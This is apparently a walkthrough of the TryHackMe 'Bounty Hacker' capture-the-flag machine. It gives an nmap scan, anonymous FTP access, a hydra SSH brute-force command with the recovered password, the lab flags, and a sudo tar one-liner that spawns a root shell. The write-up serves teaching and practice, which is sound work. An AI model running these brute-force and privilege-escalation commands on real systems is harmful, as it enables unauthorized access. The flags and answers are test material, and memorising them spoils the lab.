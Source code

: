 ```yaml
---
title: Bounty Hacker
date: 2022-05-27 17:00:00 +500
categories: [thm, easy-machines]
tags: []    # TAG names should always be lowercase
---
```




### Find open ports on the machine

run a quick Nmap scan:

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.101.89 
```

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 60
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

### Who wrote the task list? 

Let's start checking the ftp server, I tried to login with Anonymous and I had success, they where only 2 files, locks.txt and task.txt

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

this file seems to be a list of possible usernames, or perhaps passwords.

task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

not sure what those tasks mean. but we have the answer:

> lin

### What service can you bruteforce with the text file found?

I take a guess and I think it's gonna be the ssh service since it says service, and not some login page in the webserver which after a quick look to /login and /login.php did not found a page.

so let's prepare the hydra command to bruteforce the service.

```terminal
hydra -l lin -P locks.txt 10.10.101.89 ssh
```

and we got a winner!  'RedDr4gonSynd1cat3'

### What is the users password? 

> RedDr4gonSynd1cat3

### user.txt

login to the ssh service with the credentials we got, and cat the file on lin's directory:

> THM{CR1M3_SyNd1C4T3}

### root.txt

run 'sudo -l' to see what we can run as sudo, and we have something '/bin/tar', let's head over to gtfobins to the if there's a way to get a root shell taking advantage of this.

```terminal
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and we got ourselves a shell!
now just cat the file on /root directory.

> THM{80UN7Y_h4cK3r}
